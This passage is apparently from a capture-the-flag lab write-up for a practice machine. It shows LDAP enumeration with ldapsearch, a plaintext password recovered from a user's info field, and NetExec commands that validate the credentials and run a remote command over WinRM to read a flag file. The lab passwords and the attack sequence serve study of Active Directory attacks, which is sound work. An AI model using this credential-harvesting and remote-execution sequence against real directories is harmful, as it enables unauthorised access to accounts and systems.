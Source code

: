 ### Searching LDAP

Now, we can use [`ldapsearch`](../../tl-dr/active-directory/ad-tools/ldapsearch.md) along with this password (`-w`) to perform simple authentication to the LDAP server (`-x`) and query all user information. This outputs a lot of info, more specifically 1399 lines , so we will write it to a file and inspect it with a pager tool, such as `most`.&#x20;

This is not easy to find, but given the name of the box, if we look carefully at the `info` field of the user `support`, there is a plaitext password: `Ironside47pleasure40Watchful` (Figure 9).

{% code overflow="wrap" %}
```bash
# redirect the output to a file
ldapsearch -x -b 'cn=Users,dc=support,dc=htb' -H ldap://10.10.11.174 -D support\\ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' > ldap_out
# open the file with most
most ldap_out
```
{% endcode %}

<figure><img src="../../.gitbook/assets/support_ldap_pass.png" alt=""><figcaption><p>Figure 9: A 'hidden' password in the <code>info</code> field of the user <code>support</code>.</p></figcaption></figure>

Using [NetExec](../../tl-dr/active-directory/ad-tools/netexec.md), we can validate the credentials, check if `support` has WinRM access, and if it does, read the `user.txt` flag 🚩 (Figure 10).

{% code overflow="wrap" %}
```bash
# validating credentials
nxc smb 10.10.11.174 -u support -p support_pass
# checking for WinRM access
nxc winrm 10.10.11.174 -u support -p support_pass
# reading the user flag
nxc winrm 10.10.11.174 -u support -p support_pass -x 'type c:\users\support\desktop\user.txt'
```
{% endcode %}
